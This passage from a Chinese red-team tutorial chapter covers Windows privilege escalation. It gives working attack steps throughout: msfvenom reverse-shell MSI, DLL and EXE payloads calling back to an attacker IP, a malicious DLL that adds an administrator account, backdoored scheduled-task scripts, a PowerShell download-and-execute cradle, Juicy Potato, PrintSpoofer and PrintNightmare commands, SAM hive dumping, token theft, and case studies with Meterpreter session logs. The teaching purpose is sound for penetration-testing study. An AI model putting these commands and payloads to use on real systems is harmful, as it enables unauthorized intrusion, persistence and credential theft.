方法一：用msfvenom生成恶意MSI
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=你的IP LPORT=4444 \
  -f msi -o evil.msi
```

然后在目标上执行：
```cmd
msiexec /quiet /qn /i evil.msi
```

方法二：PowerUp生成
```powershell
Write-UserAddMSI
# 会生成一个UserAdd.msi
# 安装后会添加一个管理员用户
```

方法三：MSF模块
```bash
use exploit/windows/local/always_install_elevated
set SESSION 1
run
```

**注意：**
- HKCU和HKLM两个都要是1才可以
- 只有一个的话不行
- 很多企业环境为了方便会开这个

**图44-5 AlwaysInstallElevated提权工作原理图**



### 3.2 注册表中的明文密码

有时候注册表中会存明文密码，
如果能找到，
就可以直接用这些密码登录，
或者做其他事情。

**常见的存密码的注册表位置：**

1. **自动登录密码**
```cmd
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
```

2. **VNC密码**
```cmd
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKLM\SOFTWARE\RealVNC\WinVNC4" /v Password
```
VNC的密码是加密的，但可以解密。

3. **SNMP密码**
```cmd
reg query "HKLM\SYSTEM\CurrentControlSet\Services\SNMP\Parameters"
```

4. **其他软件的密码**
很多软件会把密码存在注册表里，
比如：
- FTP客户端
- 远程管理软件
- 数据库客户端
- ...

**检测方法：**

方法一：PowerUp
```powershell
Get-RegistryAutoLogon
```

方法二：WinPEAS
```cmd
winPEASx64.exe windowscreds
```

方法三：手动找
```cmd
# 搜索注册表中的password字段
# 这个比较慢，不推荐手动
```

**利用方法：**
找到明文密码后，
可以：
- 用这些密码登录
- 用这些密码做横向移动
- 用这些密码提权（如果是管理员密码）

### 3.3 注册表Run键提权

Run键是用来设置开机自启动的，
如果我们对某个高权限用户的Run键
有写入权限，
那我们可以在里面加一个恶意程序，
等那个用户登录的时候，
程序就会自动运行，
而且是那个用户的权限。

**常见的Run键位置：**
```
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
```

**利用条件：**
- 对Run键有写入权限
- 有高权限用户会登录这台机器
- 能等得起（要等用户登录）

这种方法比较鸡肋，
因为需要等用户登录，
而且HKLM的Run键一般只有管理员能改，
如果你已经能改HKLM了，
那你可能已经是管理员了。

不过HKCU的Run键可以用来
从低权限用户跳到高权限用户，
如果你知道高权限用户会登录的话。

---

## 🎯 DLL劫持提权

### 4.1 什么是DLL劫持？

DLL（Dynamic Link Library，动态链接库）
是Windows中很常见的东西，
很多程序运行的时候会加载DLL。

DLL劫持是什么呢？

简单说就是：
**程序加载DLL的时候，
会按一定的顺序查找DLL文件，
如果我们能在它查找的前面的路径
放一个同名的恶意DLL，
那程序就会加载我们的恶意DLL，
而不是原来的那个。**

如果这个程序是以高权限运行的，
那我们的DLL也会以高权限运行，
这样就提权了。

### 4.2 DLL搜索顺序

Windows加载DLL的搜索顺序
（标准模式下）：

1. 程序所在的目录
2. 系统目录（C:\Windows\System32）
3. 16位系统目录（C:\Windows\System）
4. Windows目录（C:\Windows）
5. 当前工作目录
6. PATH环境变量中的目录

**注意：**
Windows XP及更老的系统，
当前目录是在系统目录之前的，
所以更容易被劫持。

后来微软加了安全机制，
默认把当前目录放到后面了，
但还是有办法绕过。

**图44-6 Windows DLL搜索顺序与劫持原理图**



### 4.3 常见的DLL劫持场景

**1. 服务DLL劫持**
服务启动的时候会加载一些DLL，
如果这些DLL的路径没写死，
或者搜索顺序有问题，
就可能被劫持。

**2. 计划任务DLL劫持**
计划任务运行的程序如果加载DLL，
也可能被劫持。

**3. 高权限程序DLL劫持**
比如以管理员权限运行的程序，
如果有DLL劫持漏洞，
普通用户放上恶意DLL，
等管理员运行那个程序，
就能获得管理员权限。

**4. 系统程序DLL劫持**
Windows自带的一些程序也可能有
DLL劫持漏洞。

### 4.4 检测方法

手动检测DLL劫持比较麻烦，
一般用工具来检测。

**工具：**
- PowerUp
- WinPEAS
- Process Monitor（Procmon）
- DLL Hijack Scanner

**用Procmon检测：**
1. 打开Procmon
2. 启动目标程序
3. 过滤结果，找NAME NOT FOUND的DLL
4. 看看能不能在对应的路径放我们的DLL

**用PowerUp检测：**
```powershell
Find-DLLHijack
```

**用WinPEAS检测：**
```cmd
winPEASx64.exe fileinfo
```

### 4.5 利用步骤

1. 找到有DLL劫持漏洞的程序/服务
2. 确定要劫持的DLL名称
3. 编写恶意DLL
4. 把恶意DLL放到搜索路径前面的目录
5. 启动/重启程序或服务
6. 获得高权限

**恶意DLL示例：**

简单的DLL（添加用户）：
```c
#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call) {
        case DLL_PROCESS_ATTACH:
            system("net user hacker P@ssw0rd /add");
            system("net localgroup administrators hacker /add");
            break;
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

编译成DLL，
放到对应的位置，
程序加载的时候就会执行我们的代码。

**MSF生成DLL：**
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=你的IP LPORT=4444 \
  -f dll -o evil.dll
```

### 4.6 注意事项

1. **DLL要对应架构**
   - 32位程序加载32位DLL
   - 64位程序加载64位DLL
   - 搞反了加载不了

2. **要导出正确的函数**
   - 有些程序加载DLL的时候会调用特定的函数
   - 如果我们的DLL没有这些函数，可能会报错
   - 简单的方法是把原来的DLL的函数都转发过去

3. **注意隐蔽性**
   - DLL加载后程序可能崩掉，容易被发现
   - 最好让程序能正常运行，只是悄悄执行我们的代码

---

## ⏰ 计划任务提权

### 5.1 原理

计划任务（Scheduled Tasks）
是Windows自带的功能，
可以设置定时执行某些程序。

如果有一个计划任务：
- 以高权限运行（比如System）
- 执行的程序/脚本我们能修改
- 或者执行的程序有DLL劫持漏洞
- 或者执行的脚本有漏洞

那我们就能利用这个计划任务提权。

计划任务提权很常见，
而且成功率很高，
因为很多管理员会设置
一些自动运行的脚本，
但是权限配置得不好。

### 5.2 检测方法

**方法一：schtasks命令**
```cmd
# 查看所有计划任务
schtasks /query /fo LIST /v

# 查看特定任务
schtasks /query /tn "任务名" /fo LIST /v
```

**方法二：PowerUp**
```powershell
Get-ScheduledTask
```

**方法三：WinPEAS**
```cmd
winPEASx64.exe tasksinfo
```

**方法四：查看任务文件夹**
```cmd
dir C:\Windows\System32\Tasks\
```

### 5.3 利用方式

**方式一：直接修改任务执行的文件**
如果任务执行的脚本或程序
我们有写入权限，
那直接替换成我们的恶意程序，
等任务运行就好了。

这是最简单的情况，
也是最常见的情况。

**示例：**
```cmd
# 1. 找到计划任务
schtasks /query /fo LIST /v
# 发现一个任务叫Backup，每5分钟运行一次
# 运行的程序是 C:\Scripts\backup.bat
# 运行身份是 SYSTEM

# 2. 检查文件权限
icacls "C:\Scripts\backup.bat"
# BUILTIN\Users:(I)(F) —— 我们能改！

# 3. 修改脚本，加上我们的命令
echo net user hacker P@ssw0rd /add >> "C:\Scripts\backup.bat"
echo net localgroup administrators hacker /add >> "C:\Scripts\backup.bat"

# 4. 等任务运行...

# 5. 提权成功！
```

**方式二：任务配置文件权限错误**
计划任务的配置文件在：
```
C:\Windows\System32\Tasks\
```

如果我们对某个任务的配置文件
有写入权限，
那我们可以修改任务的配置，
比如修改运行的程序、
修改运行的身份等等。

不过这种情况比较少见，
因为任务配置文件默认权限很严。

**方式三：DLL劫持**
如果任务运行的程序有DLL劫持漏洞，
我们也可以通过DLL劫持来提权。
原理和前面讲的DLL劫持一样。

### 5.4 注意事项

1. **注意任务运行的时间和频率**
   - 有的任务每天才运行一次
   - 有的任务只在特定条件下运行
   - 有的任务是用户登录时运行

2. **注意任务运行的身份**
   - 是System权限吗？
   - 是管理员权限吗？
   - 还是普通用户？

3. **注意任务的参数**
   - 有些任务带参数
   - 要确保我们的程序能处理这些参数
   - 不然可能执行失败

---

## 🪙 令牌窃取与模拟提权

### 6.1 什么是访问令牌？

前面我们提到过访问令牌（Access Token），
这里再详细讲一下。

每个进程都有一个访问令牌，
里面记录了：
- 这个进程属于哪个用户
- 属于哪些组
- 有哪些权限

当进程要访问资源的时候，
系统会检查这个令牌，
来决定能不能访问。

**令牌窃取是什么？**
令牌窃取就是：
**拿到其他进程的令牌，
然后用这个令牌创建新进程，
这样新进程就有了那个令牌的权限。**

比如：
有一个System权限的进程，
我们拿到了它的令牌，
然后用这个令牌启动一个CMD，
那这个CMD就是System权限的。

### 6.2 令牌窃取的条件

要窃取令牌，
我们需要有一些特殊权限：

1. **SeDebugPrivilege**
   - 调试权限
   - 有了这个权限，几乎可以访问任何进程
   - 可以窃取任何进程的令牌

2. **SeImpersonatePrivilege**
   - 模拟权限
   - 可以模拟客户端的令牌
   - 各种Potato工具利用的就是这个

3. **SeAssignPrimaryTokenPrivilege**
   - 分配主令牌权限
   - 可以给进程分配主令牌

如果有SeDebugPrivilege，
那令牌窃取就很简单了，
因为我们可以访问任何进程。

### 6.3 Incognito工具

Incognito是一个著名的令牌窃取工具，
可以在Meterpreter中加载。

**使用方法：**

```bash
# 在Meterpreter中加载incognito
load incognito

# 列出可用的令牌
list_tokens -u

# 模拟某个令牌
impersonate_token "NT AUTHORITY\\SYSTEM"

# 验证
getuid
# 应该变成 SYSTEM 了
```

**步骤：**
1. 拿到一个有SeDebugPrivilege权限的Shell
2. 加载incognito
3. 列出令牌
4. 找到System或管理员的令牌
5. 模拟那个令牌
6. 提权成功

::: tip 注意
Incognito需要有相应的权限才能用，
不是任何Shell都能用的。

一般来说，
服务账户、管理员组的用户
才会有这些权限。
:::

### 6.4 Potato系列提权

Potato系列是非常著名的提权工具，
利用的是SeImpersonatePrivilege权限。

**原理（简单说）：**
通过一些手段（比如COM、打印服务、DCOM等）
诱使System权限的进程向我们的进程
进行身份认证，
然后我们模拟它的令牌，
从而获得System权限。

这个原理比较复杂，
新手不需要完全搞懂，
会用就行。

**各种Potato：**

| 工具 | 适用系统 | 原理 |
|------|---------|------|
| Rotten Potato | Win7/2008 | COM + 令牌模拟 |
| Juicy Potato | Win7~10/2008~2019 | COM + 多种CLSID |
| Lonely Potato | Win10/2019 | 改进的Juicy Potato |
| Rogue Potato | Win10/2019 | RPC + OXID解析 |
| Sweet Potato | Win7~10/2008~2019 | 集合了多种方法 |
| PrintSpoofer | Win10/2019/2022 | 打印服务 |
| GodPotato | 新版本Windows | DCOM的新方法 |

**Juicy Potato使用示例：**

```cmd
# 查看帮助
JuicyPotato.exe -h

# 基本用法（执行命令）
JuicyPotato.exe -t * -p cmd.exe -a "/c net user hacker P@ssw0rd /add"

# 或者指定CLSID
JuicyPotato.exe -l 1337 -p cmd.exe -t * -c "{CLSID}"
```

**PrintSpoofer使用示例：**
```cmd
# 交互式
PrintSpoofer.exe -i -c cmd

# 执行命令
PrintSpoofer.exe -c "net user hacker P@ssw0rd /add"
```

**MSF模块：**
```bash
# Juicy Potato
use exploit/windows/local/ms16_075_reflection_juicy
set SESSION 1
run

# PrintSpoofer / PrintNightmare
# 也有对应的模块
```

**注意：**
- 不同的系统版本用不同的Potato
- 需要有SeImpersonatePrivilege权限
- 服务账户通常有这个权限
- 普通用户一般没有

**图44-7 Potato系列提权工具对比图**



### 6.5 利用场景

令牌窃取和Potato提权
在什么场景下用得最多？

**场景1：Web服务器提权**
IIS的应用程序池账户、
IUSR等服务账户，
经常有SeImpersonatePrivilege权限。
拿到WebShell之后，
用Potato工具可以直接提到System。

**场景2：服务账户提权**
很多服务账户都有模拟权限，
拿到服务账户的Shell后，
用Potato可以提到System。

**场景3：SeDebugPrivilege**
如果有SeDebugPrivilege，
直接用incognito偷令牌就行。

---

## 🔓 UAC绕过

### 7.1 什么是UAC？

UAC（User Account Control，用户账户控制）
是Windows Vista开始引入的安全机制。

简单说就是：
即使你是管理员组的用户，
默认也只能用普通用户权限运行程序，
当需要管理员权限的时候，
会弹出一个确认框，
你点"是"之后才会提升权限。

UAC对我们的影响：
- 拿到了管理员组用户的Shell
- 但实际上是 medium 完整性级别
- 很多操作做不了
- 需要绕过UAC，提升到高完整性级别

::: tip 注意
UAC绕过不是从普通用户提到管理员，
而是从管理员组的普通权限
提升到真正的管理员权限。

如果你本来就是普通用户，
那UAC绕不过去，
因为你根本就没有管理员权限。
:::

### 7.2 UAC绕过方法

UAC绕过的方法有很多，
而且Windows每次更新都会修掉一些，
然后又会有新的方法出来。

这里讲几个经典的：

**方法1：通过自动提升的程序**
有些Windows自带的程序
会自动提升权限（autoElevate），
如果这些程序有漏洞，
我们就能通过它们绕过UAC。

比如：
- fodhelper.exe
- sdclt.exe
- wsreset.exe
- eventvwr.exe
- ...

**方法2：通过COM对象**
有些COM对象可以高权限启动，
如果我们能调用这些COM对象，
就能绕过UAC。

**方法3：通过DLL劫持**
和前面讲的DLL劫持类似，
不过目标是那些会自动提升的程序。

**方法4：通过注册表劫持**
修改注册表，
让高权限的程序执行我们的代码。

### 7.3 常用UAC绕过工具

**MSF模块：**
MSF有很多UAC绕过模块，
比如：
```bash
use exploit/windows/local/bypassuac
use exploit/windows/local/bypassuac_fodhelper
use exploit/windows/local/bypassuac_eventvwr
use exploit/windows/local/bypassuac_sdclt
# 还有很多...
```

使用方法：
```bash
use exploit/windows/local/bypassuac_fodhelper
set SESSION 1
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 你的IP
set LPORT 4444
run
```

**PowerShell工具：**
- UACME（UAC绕过大合集）
- PowerUp（也有一些UAC检查）
- Empire（PowerShell后渗透工具）

**UACME：**
UACME是一个收集了很多UAC绕过方法的工具，
里面有几十种绕过方法，
支持不同的Windows版本。

使用方法：
```cmd
# 列出所有方法
Akagi64.exe list

# 使用第34号方法执行命令
Akagi64.exe 34 cmd.exe
```

### 7.4 UAC绕过的步骤

1. 确认当前用户是管理员组的
2. 确认UAC是开启的
3. 选择合适的UAC绕过方法
4. 执行绕过
5. 获得高权限的Shell

**检查当前权限和完整性级别：**
```cmd
whoami /groups | findstr /i "label"
```
或者：
```powershell
# 用PowerShell查看
# 或者用whoami /all
```

如果显示的是：
- `Mandatory Label\Medium Mandatory Level` → 中等，需要绕过UAC
- `Mandatory Label\High Mandatory Level` → 高权限，已经绕过了
- `Mandatory Label\System Mandatory Level` → System权限

---

## 📚 其他提权方法

### 8.1 备份权限提权（SeBackupPrivilege）

如果我们有SeBackupPrivilege权限，
那我们可以读取任何文件，
包括SAM和SYSTEM文件。

**利用步骤：**
1. 导出SAM和SYSTEM注册表配置单元
2. 转储出密码Hash
3. 用Hash做横向移动或者Pass-the-Hash

**示例：**
```cmd
# 导出SAM
reg save HKLM\SAM sam.hive

# 导出SYSTEM
reg save HKLM\SYSTEM system.hive

# 然后把这两个文件下载下来
# 用mimikatz或其他工具转储Hash
```

有了SeBackupPrivilege虽然不能直接提权，
但是能拿到所有用户的密码Hash，
接下来就可以做很多事情了。

### 8.2 恢复权限提权（SeRestorePrivilege）

和SeBackupPrivilege对应，
SeRestorePrivilege可以写入任何文件。

如果有这个权限，
我们可以：
- 修改系统文件
- 替换服务的exe
- 修改注册表
- ...

这样就有很多提权路径了。

### 8.3 取得所有权权限（SeTakeOwnershipPrivilege）

有了这个权限，
我们可以取得任何文件的所有权，
然后修改它的权限，
最后就能读写了。

利用思路和上面类似，
就是多了几步操作。

### 8.4 加载驱动权限（SeLoadDriverPrivilege）

有了这个权限，
我们可以加载驱动程序。
驱动是运行在内核层的，
加载了恶意驱动之后，
想干什么干什么。

不过这个权限比较少见，
而且利用起来稍微复杂一点。

### 8.5 组策略首选项（GPP）提权

这个其实更偏向域环境，
不过也可以放在这里提一下。

组策略首选项（Group Policy Preferences）
里面可以存密码，
而且密码是加密的，
但是加密密钥是公开的！

所以如果能找到Groups.xml之类的文件，
就能解密出里面的密码。

这些密码可能是本地管理员密码，
也可能是域用户密码。

**工具：**
- Get-GPPPassword（PowerSploit里的）
- gpp-decrypt
- MSF的post模块

**MSF模块：**
```bash
use post/windows/gather/credentials/gpp
set SESSION 1
run
```

### 8.6 卸载程序/安装程序提权

有些卸载程序或者安装程序
是以高权限运行的，
如果它们有DLL劫持漏洞，
或者我们能修改它们的配置，
也可能提权。

这种情况比较少，
遇到了可以试试。

### 8. 从WSUS提权

如果WSUS（Windows更新服务）配置不当，
比如用HTTP而不是HTTPS，
那我们可以中间人攻击，
给目标下发恶意更新，
从而提权。

这个在内网中比较好用。

工具：
- WSUSpendu
- 还有一些其他的WSUS攻击工具

---

## 🎯 真实案例

### 案例1：未引用服务路径 + 写入权限 = System

**场景：**
护网行动中，我们通过Web漏洞
拿到了一台Windows Server 2008的WebShell，
权限是IIS应用程序池身份，
很低。

**提权过程：**

**第一步：信息收集**
```cmd
whoami
# iis apppool\defaultapppool

systeminfo
# Windows Server 2008 R2 Standard
# 64位
# 补丁不多
```

**第二步：跑WinPEAS**
上传winPEASx64.exe，运行。

结果发现了几个高危项：
```
[!] Unquoted Service Path: VulnService
    Path: D:\My Services\VulnService\service.exe
    User: LocalSystem
    Permissions: Users can write to D:\My Services\
```

太棒了！未引用的服务路径，
而且我们对`D:\My Services\`有写入权限！

**第三步：验证**
```cmd
sc qc VulnService
# BINARY_PATH_NAME : D:\My Services\VulnService\service.exe
# SERVICE_START_NAME : LocalSystem

icacls "D:\My Services"
# BUILTIN\IIS_IUSRS:(OI)(CI)(M)
# —— 我们确实有写入权限！
```

**第四步：制作恶意exe**
```bash
# 用msfvenom生成
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=192.168.1.10 LPORT=4444 \
  -f exe -o VulnService.exe
```
等等，我们应该放哪个名字的exe？

让我们再想想：
路径是`D:\My Services\VulnService\service.exe`

系统会依次尝试：
1. `D:\My.exe` → 在D:\根目录
2. `D:\My Services\VulnService.exe` → 在D:\My Services\下
3. `D:\My Services\VulnService\service.exe` → 原路径

我们对`D:\My Services\`有写入权限，
所以我们可以创建`D:\My Services\VulnService.exe`。

对，没错！

**第五步：上传恶意exe**
把生成的恶意exe上传到
`D:\My Services\VulnService.exe`。

**第六步：重启服务**
我们能重启服务吗？
```cmd
sc stop VulnService
# 权限不够...

sc start VulnService
# 也不行...
```

哦，没关系，
服务是自动启动的，
等系统重启就好了。
但我们等不及啊...

怎么办呢？
看看能不能找到其他办法。

等等，看看能不能通过IIS或者其他方式
让系统触发什么？
或者看看有没有计划任务会重启服务？

或者...
我们有没有其他办法？

哦，对了，
还可以看看有没有服务崩溃自动重启的设置。

不过这个案例中，
我们发现服务器每天凌晨会自动重启，
那我们就等一等，
或者先做别的事情。

**第七步：等待并收获**
第二天凌晨，
服务器自动重启了，
我们的MSF收到了会话！

```
[*] Sending stage (201283 bytes) to 192.168.1.100
[*] Meterpreter session 1 opened

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

提权成功！

**总结：**
- 信息收集很重要，WinPEAS一跑就找到了
- 未引用服务路径是经典的配置错误提权
- 不需要改系统文件，只需要放个exe就行
- 风险小，成功率高

### 案例2：AlwaysInstallElevated一键提权

**场景：**
拿到一台Windows 10的普通用户Shell，
是公司的员工机。

**提权过程：**

**第一步：跑PowerUp**
```powershell
IEX (New-Object Net.WebClient).DownloadString("http://192.168.1.10/PowerUp.ps1")
Invoke-AllChecks
```

结果：
```
[*] Checking for AlwaysInstallElevated...
[!] AlwaysInstallElevated is enabled!
    HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer: AlwaysInstallElevated = 1
    HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer: AlwaysInstallElevated = 1
```

两个都是1！
这运气也太好了吧！

**第二步：生成恶意MSI**
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=192.168.1.10 LPORT=4444 \
  -f msi -o evil.msi
```

**第三步：上传并安装**
```cmd
msiexec /quiet /qn /i evil.msi
```

**第四步：等待会话**
几秒钟后...
```
[*] Meterpreter session 2 opened

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

搞定！
全程不到5分钟。

**总结：**
- AlwaysInstallElevated是最简单的提权方式之一
- 很多企业为了方便会开这个
- 一键提权，非常爽
- 用PowerUp一查就知道有没有

### 案例3：PrintNightmare打印服务提权

**场景：**
拿到一台Windows Server 2019的Shell，
是本地普通用户权限，
配置错误都试过了，没找到，
试试打印服务漏洞。

**提权过程：**

**第一步：检查Print Spooler服务**
```cmd
sc query Spooler
# 服务正在运行！
```

**第二步：用WinPEAS检测**
```cmd
winPEASx64.exe
```
结果显示系统没有打PrintNightmare的补丁。

**第三步：下载EXP**
找一个PrintNightmare的PowerShell版本。

**第四步：执行提权**
```powershell
Import-Module .\PrintNightmare.ps1

# 添加一个管理员用户
Invoke-Nightmare -NewUser "hacker" -NewPassword "P@ssw0rd123!" -NewGroup "Administrators"
```

等了一会儿...
```
[+] User created successfully!
[+] User added to Administrators group!
```

**第五步：验证**
```cmd
net user hacker
# 用户存在！

net localgroup administrators
# hacker在管理员组里！
```

提权成功！

**第六步：登录验证**
用这个账号登录，
或者用runas / 或者用psexec，
就能获得管理员权限了。

**总结：**
- PrintNightmare影响范围很大
- 打印服务默认开启的机器很多
- 利用简单，成功率高
- 不过现在大部分机器都打补丁了

### 案例4：SeImpersonatePrivilege + Juicy Potato

**场景：**
拿到一台Windows Server 2016的WebShell，
权限是IIS应用池身份。

**提权过程：**

**第一步：查看权限**
```cmd
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects          Enabled
```

看到了吗？
SeImpersonatePrivilege是启用的！

有这个权限，
就可以用Juicy Potato提权了。

**第二步：上传JuicyPotato**
上传JuicyPotato.exe到目标机器。

**第三步：执行提权**
```cmd
JuicyPotato.exe -t * -p cmd.exe -a "/c net user potato P@ssw0rd /add && net localgroup administrators potato /add"
```

等了几秒...
```
[+] authresult 0
[+] CreateProcessWithTokenW OK
```

**第四步：验证**
```cmd
net localgroup administrators
# potato用户已经在管理员组里了！
```

成功！

**总结：**
- 服务账户经常有SeImpersonatePrivilege
- WebShell提权经常用到Potato系列
- 不同系统版本用不同的Potato工具
- 非常实用的提权方法

### 案例5：从普通管理员到System（令牌窃取）

**场景：**
通过钓鱼拿到了一个管理员用户的Shell，
但是UAC开着，
是中等完整性级别，
而且已经绕过了UAC，
获得了高权限的Shell，
但还不是System。

现在想从管理员提到System。

**提权过程：**

**第一步：确认当前权限**
```cmd
whoami
# win-xxx\admin

whoami /groups | findstr /i "label"
# Mandatory Label\High Mandatory Level
# 已经是高完整性了，但还不是System
```

**第二步：加载incognito**
用MSF的Meterpreter会话：
```bash
meterpreter > getuid
Server username: WIN-XXX\admin

meterpreter > load incognito
Loading extension incognito...Success.
```

**第三步：列出令牌**
```bash
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
NT AUTHORITY\SYSTEM
WIN-XXX\admin
...

Impersonation Tokens Available
========================================
...
```

哦！有System的委托令牌！

**第四步：模拟令牌**
```bash
meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

搞定！直接变成System了。

**总结：**
- 有了高权限，窃取令牌很容易
- Incognito工具很好用
- 很多时候系统里就有System的令牌
- 从管理员到System通常不难

---

## ✏️ 课后习题

### 一、选择题（10道）

1. 未引用的服务路径漏洞是利用了什么？
   A. 服务的可执行文件权限太松
   B. 服务路径中有空格且没有引号，导致路径解析歧义
   C. 服务的注册表权限太松
   D. 服务的启动类型不对

2. AlwaysInstallElevated需要哪几个注册表项都是1才能利用？
   A. 只有HKLM的
   B. 只有HKCU的
   C. HKLM和HKCU两个都是
   D. 都不是

3. DLL劫持利用的是什么？
   A. 程序加载DLL时的搜索顺序
   B. DLL文件的权限太松
   C. 注册表配置错误
   D. 服务配置错误

4. 以下哪个工具是利用SeImpersonatePrivilege权限提权的？
   A. PowerUp
   B. WinPEAS
   C. Juicy Potato
   D. Mimikatz

5. Incognito工具是用来做什么的？
   A. 扫描漏洞
   B. 窃取令牌，模拟其他用户权限
   C. 破解密码
   D. 扫描端口

6. UAC绕过的前提是什么？
   A. 当前用户是普通用户
   B. 当前用户属于管理员组，但处于中等完整性级别
   C. 当前用户是SYSTEM
   D. 任何用户都可以

7. PrintNightmare漏洞和什么服务有关？
   A. IIS服务
   B. Print Spooler（打印服务）
   C. 防火墙服务
   D. 远程桌面服务

8. SeBackupPrivilege权限可以用来做什么？
   A. 直接执行命令提权
   B. 读取任何文件，包括SAM文件
   C. 修改系统时间
   D. 关闭防火墙

9. 以下哪种提权方法风险最小（最不容易蓝屏）？
   A. 内核漏洞提权
   B. 服务配置错误提权
   C. 驱动加载提权
   D. 都一样

10. 组策略首选项（GPP）中的密码有什么特点？
    A. 是明文存储的
    B. 是加密的，但加密密钥是公开的，可以解密
    C. 无法解密
    D. 只有域管理员才能看到

### 二、填空题（5道）

1. 服务配置错误提权主要有三种：未引用服务路径、______、服务注册表权限错误。
2. 检测AlwaysInstallElevated需要查询HKLM和______两个位置的注册表项。
3. Potato系列工具利用的是______权限来提权。
4. Windows中用来查看所有计划任务的命令是 `______ /query /fo LIST /v`。
5. Meterpreter中加载incognito模块的命令是 `______ incognito`。

### 三、简答题（5道）

1. 简述未引用服务路径提权的原理和利用步骤。
2. 什么是DLL劫持？利用的条件有哪些？
3. AlwaysInstallElevated是什么？怎么利用？
4. 令牌窃取的原理是什么？需要什么权限？
5. UAC绕过和普通提权有什么区别？UAC绕过的前提是什么？

### 四、实操题（5道）

1. 在你的实验环境中，找一个Windows靶机，练习使用PowerUp和WinPEAS扫描提权点。
2. 尝试手动配置一个未引用服务路径的漏洞环境，然后练习利用它提权。
3. 找一个有SeImpersonatePrivilege权限的环境（比如IIS的应用池），练习使用Juicy Potato或PrintSpoofer提权。
4. 找一个管理员组用户的环境，练习使用incognito窃取令牌。
5. 在实验环境中练习UAC绕过（比如用MSF的bypassuac模块）。

---

## 📖 本章小结

::: tip 总结一下
这一章我们深入学习了各种Windows提权方法，
内容非常多，都是干货。

**重点回顾：**

1. **内核漏洞提权**
   - MS17-010、MS16-032、MS15-051、MS11-046
   - PrintNightmare
   - 威力大，但有蓝屏风险

2. **服务配置错误提权**
   - 未引用的服务路径（Unquoted Service Path）
   - 服务二进制文件权限错误
   - 服务注册表权限错误
   - 风险小，成功率高

3. **注册表提权**
   - AlwaysInstallElevated
   - 注册表中的明文密码
   - Run键提权

4. **DLL劫持提权**
   - DLL搜索顺序
   - 各种劫持场景
   - 利用方法

5. **计划任务提权**
   - 修改任务执行的文件
   - 任务配置文件权限错误

6. **令牌窃取与模拟**
   - 访问令牌
   - Incognito工具
   - Potato系列（Rotten/Juicy/Rogue/Sweet/PrintSpoofer/GodPotato）
   - SeImpersonatePrivilege权限

7. **UAC绕过**
   - UAC是什么
   - 各种绕过方法
   - 常用工具（MSF模块、UACME）

8. **其他提权方法**
   - SeBackupPrivilege / SeRestorePrivilege
   - SeTakeOwnershipPrivilege
   - SeLoadDriverPrivilege
   - GPP组策略首选项
   - WSUS提权

提权的方法非常多，
不需要全部死记硬背，
关键是要有思路，
知道在什么情况下该往哪个方向想。

下一章我们学习Linux提权技术。

准备好了吗？
我们继续前进！
:::

---

## 🔗 相关链接

- [⬅️ 上一章：---](/redteam/day049-senior-Windows提权基础)
- [➡️ 下一章：---](/redteam/day051-senior-Windows提权高级)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)
